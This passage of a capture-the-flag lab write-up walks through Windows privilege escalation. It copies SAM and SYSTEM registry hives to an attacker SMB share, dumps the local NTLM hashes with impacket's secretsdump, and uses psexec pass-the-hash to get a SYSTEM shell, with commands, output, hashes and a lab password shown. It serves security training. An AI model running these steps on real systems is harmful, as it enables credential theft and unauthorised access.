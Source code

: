 ```bash
root@ip-10-10-174-91:~# mkdir share
root@ip-10-10-174-91:~# python3 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

```

Copy the hives to the AttackBox machine

```bash
C:\>copy C:\Users\THMBackup\sam.hive \\10.10.174.91\Public
C:\>copy C:\Users\THMBackup\system.hive \\10.10.174.91\Public
```

<img width="1919" height="689" alt="Screenshot 2025-08-16 160530" src="https://github.com/user-attachments/assets/4ddd835b-a8dd-4638-b670-aa2ac16eec40" />

```bash
root@ip-10-10-174-91:~# ls share
sam.hive  system.hive
root@ip-10-10-174-91:~# file share/*
share/sam.hive:    MS Windows registry file, NT/2000 or above
share/system.hive: MS Windows registry file, NT/2000 or above

```

Use impacket’s [secretsdump.py](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/) to read SAM and LSA secrets from registries.

```bash
root@ip-10-10-127-1:~# python3 /opt/impacket/examples/secretsdump.py -system share/system.hive -sam share/sam.hive local
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 

```

Use [psexec.py](https://wadcoms.github.io/wadcoms/Impacket-PsExec/), to perform a Pass-the-Hash attack of the Administrator's account and gain access to the target machine with SYSTEM privileges

```bash
root@ip-10-10-127-1:~# python3 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.119.143
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.119.143.....
[*] Found writable share ADMIN$
[*] Uploading file VRXkmiuO.exe
[*] Opening SVCManager on 10.10.119.143.....
[*] Creating service hAWD on 10.10.119.143.....
[*] Starting service hAWD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```
